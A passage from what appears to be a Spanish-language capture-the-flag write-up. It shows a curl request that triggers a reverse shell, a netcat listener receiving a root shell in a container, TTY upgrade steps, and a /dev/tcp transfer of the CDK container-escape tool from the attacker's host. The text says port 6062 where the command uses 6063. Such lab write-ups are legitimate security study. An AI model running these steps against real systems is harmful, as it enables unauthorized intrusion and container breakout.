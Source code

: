 
```bash
❯ curl http://10.10.11.155:3000/hooks/ggmD6mCoknDtQaw5n/FfRD3vibuiaBmyrrDT6CdYqH8eLCqgB2jq8J4oeCNDTCuabA
```

En una consola aparte nos ponemos en escuda por el puerto 6062 con netcat para recibir la consola interactiva


```bash
❯ sudo nc -nlvp 6063
Connection from 10.10.11.155:58552
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
> root@c150397ccd63:/app/bundle/programs/server#
``` 

Y nuevamente estamos en un contenedor, ya suficiente de contenedores, busquemos la forma de escapar de este contenedor.
Viendo por <a href="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#automatic-enumeration-and-escape" target="_blank">HackTricks - Dockerbreakout</a>, hay una herramienta <a href="https://github.com/cdk-team/CDK#installationdelivery" target="_blank">CDK</a> que nos permite escanear posibles escapatorias de un contenedor.

Para transferir el binario, lo podemos hacer con cat y netcat, pero para ello necesitamos manejarnos por una TTY.
```ruby
> root@c150397ccd63:~# script /dev/null -c bash                
script /dev/null -c bash
Script started, file is /dev/null
> root@c150397ccd63:~#
```

Le damos a 'ctrl+z'

```ruby
❯ stty raw -echo;fg
[1]  + continued  sudo nc -nlvp 6063
                                    reset xterm
```

Y ahora si podemos transferir el archivo, nos ponemos en escucha por algun puerto libre y que al conectarse ofresca el binario

```bash
❯ nc -nvlp 6064 < cdk
```

Haciendo lo mismo que antes, pero en vez de que nosotros lo recibamos lo recibira la máquina

```ruby
> root@c150397ccd63:~# cat < /dev/tcp/10.10.14.158/6064 > cdk
```

Esperamos un poco para que se trasnfiera sin errores, y luego presionamos ctrl+c para forzar una salida no exitosa.

Comprobamos que el hash md5 sean identicos para saber si la data a sido manipulada o alterada en el proceso, y le damos permiso de ejecución
